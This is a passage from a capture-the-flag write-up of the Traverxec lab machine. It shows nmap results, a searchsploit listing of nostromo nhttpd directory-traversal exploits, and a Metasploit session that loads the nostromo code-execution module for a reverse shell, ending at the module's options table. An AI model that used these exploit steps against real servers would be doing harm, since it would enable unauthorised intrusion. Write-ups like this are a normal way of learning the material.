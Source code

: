     Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Nov 27 09:04:44 2019 -- 1 IP address (1 host up) scanned in 7.91 seconds

There is an exploit for nostromo in version 1.9.3 and a metasploit exploit
without a precision about the version.

    :::text
    # searchsploit nostromo
    --------------------------------------- ----------------------------------------
    Exploit Title                         |  Path
                                          | (/usr/share/exploitdb/)
    --------------------------------------- ----------------------------------------
    Nostromo - Directory Traversal Remote  | exploits/multiple/remote/47573.rb
    nostromo nhttpd 1.9.3 - Directory Trav | exploits/linux/remote/35466.sh
    --------------------------------------- ----------------------------------------

## Web

We run a dirb against the web service.

The website is a portfolio for a web and apps developer.

![homepage](/media/2020.xx/traverxec_1.png)

The directory are listable.

![Directory listing](/media/2020.xx/traverxec_2.png)

Nothing interesting on the web part. Let us run the exploit found in the recon.

## MSF

We load the exploit in metasploit, set the option to target the box and set our
IP work the reverse shell and run it.

    :::text
    msf5 exploit(multi/http/nostromo_code_exec) > use exploit/multi/http/nostromo_code_exec
    msf5 exploit(multi/http/nostromo_code_exec) > show options

    Module options (exploit/multi/http/nostromo_code_exec):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
       RHOSTS   10.10.10.165     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT    80               yes       The target port (TCP)
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL/TLS for outgoing connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)
       VHOST                     no        HTTP server virtual host
